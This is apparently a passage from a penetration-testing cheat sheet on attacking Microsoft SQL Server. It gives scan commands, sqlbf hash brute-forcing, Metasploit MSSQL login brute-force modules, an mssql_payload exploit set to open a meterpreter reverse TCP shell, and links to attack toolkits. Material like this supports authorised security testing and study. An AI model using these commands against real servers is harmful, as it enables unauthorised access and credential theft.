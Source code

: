 ```
```
>sqlpoke [Start IP] [End IP] [Port] [Command File]
```

* [SQL Recon](https://www.specialopssecurity.com/tools/sqlrecon/) - performs both active and passive scans of your network in order to identify all of the SQL Server/MSDE installations in your enterprise
{% endtab %}

{% tab title="Brute Force" %}
```
#sqlbf -u hashes.txt -d dictionary.dic -r out.rep (dictionary Attack)
#sqlbf -u hashes.txt -c default.cm -r out.rep (Brute-Force attack
```
{% endtab %}

{% tab title="Metasploit" %}
Enumerate MSSQL Servers on the network

* ```
  msf > use auxiliary/scanner/mssql/mssql_ping
  $ nmap -sU --script=ms-sql-info $ip
  ```

Bruteforce MsSql

* ```
  msf auxiliary(mssql_login) > use auxiliary/scanner/mssql/mssql_login
  ```

Gain shell using gathered credentials

* ```
  msf > use exploit/windows/mssql/mssql_payload
      msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp
  ```

Log in to a MsSql server:

```
# root@kali:~/dirsearch# cat ../.freetds.conf
[someserver]
host = $ip
port = 1433
tds version = 8.0
user=sa

root@kali:~/dirsearch# sqsh -S someserver -U sa -P PASS -D DB_NAME
```
{% endtab %}

{% tab title="Specialty Tools" %}
* [mssqlinstance.py:](https://github.com/SecureAuthCorp/impacket/blob/impacket\_0\_9\_21/examples/mssqlinstance.py) Retrieves the MSSQL instances names from the target host.
* [mssqlclient.py:](https://github.com/SecureAuthCorp/impacket/blob/impacket\_0\_9\_21/examples/mssqlclient.py) An MSSQL client, supporting SQL and Windows Authentications (hashes too). It also supports TLS.
* [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) - A PowerShell Toolkit for Attacking SQL Server
  * [https://github.com/NetSPI/PowerUpSQL/wiki](https://github.com/NetSPI/PowerUpSQL/wiki)
{% endtab %}
